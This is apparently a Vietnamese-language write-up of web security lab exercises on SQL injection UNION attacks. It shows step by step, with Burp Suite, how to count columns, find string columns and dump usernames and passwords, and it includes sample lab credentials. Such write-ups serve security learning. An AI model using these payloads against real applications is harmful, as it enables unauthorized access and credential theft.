Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, trước tiên bạn cần xác định số lượng cột được trả về bởi truy vấn. Bạn có thể làm điều này bằng cách sử dụng kỹ thuật mà bạn đã học trong phòng lab trước đó. Bước tiếp theo là xác định một cột tương thích với dữ liệu chuỗi.

Bài lab sẽ cung cấp một giá trị ngẫu nhiên mà bạn cần làm xuất hiện trong kết quả truy vấn. Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa giá trị được cung cấp. Kỹ thuật này giúp bạn xác định cột nào tương thích với dữ liệu chuỗi.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiềm tra cột có thể trả về giá trị dạng `string`. Sau khi thay vào giá trị `NULL` thứ 2, ứng dụng đã không trả về lỗi.



10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Sử dụng một cuộc tấn công SQL injection UNION để truy xuất dữ liệu thú vị

Khi bạn đã xác định số lượng cột được trả về bởi truy vấn gốc và tìm ra cột nào có thể chứa dữ liệu chuỗi, bạn có thể tiến hành truy xuất dữ liệu thú vị.

Giả sử rằng:

- Truy vấn gốc trả về hai cột, cả hai đều có thể chứa dữ liệu chuỗi.
- Điểm tiêm nằm trong một chuỗi được trích dẫn trong mệnh đề `WHERE`.
- Cơ sở dữ liệu chứa một bảng có tên là users với các cột `username` và `password`.

Trong ví dụ này, bạn có thể truy xuất nội dung của bảng users bằng cách gửi đầu vào:
```sql
' UNION SELECT username, password FROM users--
```
Để thực hiện cuộc tấn công này, bạn cần biết rằng có một bảng tên là `users` với hai cột tên là `username` và `password`. Nếu không có thông tin này, bạn sẽ phải đoán tên các bảng và cột. Tất cả các cơ sở dữ liệu hiện đại đều cung cấp các cách để kiểm tra cấu trúc cơ sở dữ liệu và xác định các bảng và cột mà chúng chứa.

# Lab: SQL injection UNION attack, retrieving data from other tables

## Mô tả bài lab

Phòng lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công `UNION` để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật mà bạn đã học trong các phòng lab trước đó.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`.

Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu, và sử dụng thông tin đó để đăng nhập với tư cách là `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiềm tra cột có thể can thiệp. Sau khi thay vào cả 2 giá trị `NULL`, ứng dụng vẫn không trả về lỗi.


10. Theo yêu cầu bài lab, ta cần lấy giá trị của các cột `username` và `password` từ bảng `users`. Ta sẽ sử dụng gói tin như sau:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin đăng nhập của các người dùng, bao gồm cả `administrator`.



11. Sử dụng thông tin này để đăng nhập, ứng dụng sau đó sẽ trả về thông báo hoàn thành bài lab.

# Lấy nhiều giá trị trong một cột

Trong một số trường hợp, truy vấn trong ví dụ trước có thể chỉ trả về một cột duy nhất.

Bạn có thể lấy nhiều giá trị trong cột này bằng cách kết hợp các giá trị lại với nhau. Bạn có thể thêm một ký tự phân cách để dễ dàng nhận biết các giá trị đã kết hợp. Ví dụ, trên Oracle bạn có thể gửi truy vấn:

```sql
' UNION SELECT username || '~' || password FROM users--
```

Điều này sử dụng chuỗi dấu gạch đôi `||`, là toán tử kết hợp chuỗi trên Oracle. Truy vấn chèn kết hợp các giá trị của các trường `username` và `password`, được ngăn cách bởi ký tự ~.

Kết quả từ truy vấn sẽ chứa tất cả các tên người dùng và mật khẩu, ví dụ:

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Các cơ sở dữ liệu khác nhau sử dụng cú pháp khác nhau để thực hiện kết hợp chuỗi. Để biết thêm chi tiết, xem bảng cheat sheet về SQL injection.